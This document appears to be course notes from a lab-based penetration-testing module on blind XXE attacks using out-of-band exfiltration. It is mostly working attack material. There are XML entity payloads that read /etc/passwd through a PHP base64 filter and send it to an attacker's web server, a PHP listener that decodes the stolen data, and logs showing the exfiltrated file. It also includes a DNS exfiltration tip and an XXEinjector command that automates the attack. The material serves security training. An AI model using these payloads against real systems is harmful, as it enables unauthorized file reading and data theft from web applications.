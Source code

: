 * Blind situation, where we neither get the output of the XML entities nor do we get any PHP errors displayed

## Out-of-bound Data Exfiltration
* We can utilize a method known as `Out-of-bound (OOB) Data Exfiltration`
	* Used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE
* Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading
* First use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it
* Then create another external parameter entity and reference it to our IP
* After that place the `file` parameter value as part of the URL being requested over HTTP 

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

* Simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```sh
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![](web_attacks_xxe_blind_request.jpg)

```sh
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

## Automated OOB Exfiltration
* One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector)

```sh
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

* Copy the HTTP request from Burp and write it to a file for the tool to use.
* Write `XXEINJECT` after it as a position locator for the tool

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```sh
$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

* All files get stored in the `Logs` folder

```sh
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [ 
  <!ENTITY % remote SYSTEM "http://10.10.16.27:8000/xxe.dtd">
  %remote;
  %oob;
]>
            <root>
            <name>&content;</name>
            <details>Details</details>
            <date>1999-02-03</date>
            </root>
            
```